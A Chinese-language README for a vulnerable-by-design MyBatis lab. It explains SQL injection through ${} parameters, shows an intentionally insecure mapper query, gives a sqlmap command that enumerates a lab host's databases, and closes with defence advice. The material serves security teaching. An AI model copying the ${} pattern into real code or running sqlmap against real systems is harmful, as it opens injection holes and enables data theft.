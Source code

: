 # Mybatis sql注入漏洞环境
### 测试环境
本环境用mybatis演示了使用$符号,而不是#符号时,引起的sql注入漏洞.

### 漏洞原理
```
<select id="findLogByUserId" parameterType="long" resultMap="logResultMap">
    select * from t_user_log where user_id=#{userId} and action=#{action} order by id desc limit ${1}
</select>
```
如果${1}可控，就存在安全问题

在mybatis中，”${xxx}”这样格式的参数会直接参与sql编译，从而不能避免注入攻击。但涉及到动态表名和列名时，只能使用“${xxx}”这样的参数格式，所以，这样的参数需要我们在代码中手工进行处理来防止注入。

ps:更多细节查阅参考资料

环境源码下载:[vuln_mybatis.tar.gz](!http://{{ip}}:{{webport}}/vuln/mybatis_sqli/vuln_mybatis.tar.gz)

### 漏洞利用
下载sqlmap利用工具,利用sqlmap获得mysql所有的数据库名
```
git clone https://github.com/sqlmapproject/sqlmap
cd sqlmap
python sqlmap.py --batch -u "http://{{ip}}:{{port[0]}}/getUserInfoOrder/name*" --dbs
```

### 漏洞防御
    在编写mybatis的映射语句时，尽量采用“#{xxx}”这样的格式。若不得不使用“${xxx}”这样的参数，要手工地做好过滤工作，来防止sql注入攻击。
### 参考资料
[审计mybatis的sql注入](!http://xdxd.love/2017/05/24/审计mybatis的sql注入new/)